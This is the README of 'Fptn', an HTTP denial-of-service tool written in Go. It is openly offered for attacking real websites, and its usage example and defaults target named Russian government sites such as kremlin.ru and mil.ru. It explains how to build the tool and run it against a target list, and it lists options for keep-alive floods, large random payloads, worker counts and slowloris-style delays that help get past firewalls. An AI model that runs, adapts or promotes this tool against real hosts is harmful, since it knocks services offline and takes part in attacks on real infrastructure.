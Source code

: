 # Fptn HTTP DoS attack utility

Fptn is a simple HTTP DoS utility which can create a lot of different kinds of HTTP requests. By default it utilizes keep-alive connection to keep TCP connections open for multiple requests. This is useful in situations, when firewall blocks multiple connection attempts from one address. Keep alive can be switched off with `-keep-alive=false` param.

Requests are executed in loop on workers (concurrent go routines). Default number of workers is 20 per URL, but can be set to any number with `-workers` param.

Random content payload is attached to each request by default. It's 1MB in size, but can be changed with parameter `-payload-length` (in kB) or disabled with `-send-payload=false`.

## Build

Fptn is using packages from standard library only. So build is easy as this:

```
go build fptn.go
```


## Usage

Prepare list of target URLs in text file, each URL on separate line. Then run `fptn` like this:

```
$ cat targets.txt
https://kremlin.ru
https://mil.ru
https://rkn.gov.ru
$ ./fptn -sites-file=targets.txt
```

Other parameters to `fptn`:

```
  -delay int
    	Sleep time in milliseconds between each request per worker. Can be increased for keep-alive attacks similar to slowloris
  -keep-alive
    	Whether to use keep-alive connections (true), or initiate new TCP connection on each request (false) (default true)
  -method string
    	HTTP method to use. Use HEAD for low bandwidth attacks (default "GET")
  -payload-length int
    	Payload length in kilobytes (default 1024)
  -send-payload
    	Attach payload with random content to each request (default true)
  -site string
    	Site URL to attack (default "https://kremlin.ru")
  -sites-file string
    	Path to file with URLs, each on a new line (default "./sites.txt")
  -workers int
    	Number of workers per URL (default 20)
```
